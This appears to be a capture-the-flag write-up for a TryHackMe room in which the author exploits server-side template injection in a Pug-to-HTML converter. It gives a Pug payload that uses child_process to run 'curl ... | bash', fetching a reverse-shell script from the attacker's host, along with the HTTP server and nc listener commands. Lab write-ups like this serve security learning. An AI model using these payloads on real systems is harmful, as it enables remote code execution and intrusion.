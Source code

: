 # Write up for the tryhackme ctf: [templates](https://tryhackme.com/room/templates)

```
export ip=10.10.243.24
export hip=10.18.25.169
```

## recon and scanning
## process
- considering this is a pug related ctf, I thought I would directly try the port `5000` and this was open.
- so opening this in a browser
- it shows a pug to html converter which means we can probably execute commands on the server and that means there is a possibility of RCE.
- trying out `title #{1+1}` in the template section and when clicked on convert to html it the rendered html has `2` instead of `1+1`.
- so I tried searching for a reverse shell which we can use in the pug template and came across [this website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) which had the sample.
  - `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`
- i tried giving the bash reverse shell command directly inside the above line, but it didn't work.
- so I created an `rev.sh` file in this directory and started a python simple http server from here
  - `python -m SimpleHTTPServer 80`
- then in the code which I got from the website for creating the reverseshell, I replaced the ip with my host system's ip.
  - `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.18.25.169/rev.sh | bash')}()}`
- then I started an nc listener on the host
  - `nc -lnvp 4444`
- after that, I clicked on the `convert to html` button and the reverse shell got connected and the flag.txt with the flag was in the current directory of the shell.

